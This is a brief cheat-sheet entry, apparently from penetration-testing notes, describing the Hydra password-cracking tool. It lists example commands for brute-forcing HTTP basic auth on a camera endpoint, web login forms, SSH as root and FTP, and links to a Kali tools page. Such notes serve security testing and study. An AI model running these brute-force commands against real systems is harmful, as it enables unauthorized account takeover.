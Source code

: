 # Hydra

1. Tool to crack passwords of various web service and also system services/protocols such as SSH and FTP.
2. Usage:
   1. hydra -l admin -P 1000\_common\_passwords.txt -s 8090 -f 192.168.1.4 http-get /get\_camera\_params.cgi \[basic auth bruteforce]
   2. hydra -l username -P wordlist.txt VICTIMIP http-post-form "/URLPATH:username=^USER^\&password=^PASS^:login error" -V
   3. hydra -l root -P wordlist.txt -t 6 ssh://ip
   4. hydra -l user -P wordlist.txt ftp://ip
3. Reference:
   1. [https://en.kali.tools/?p=220](https://en.kali.tools/?p=220)

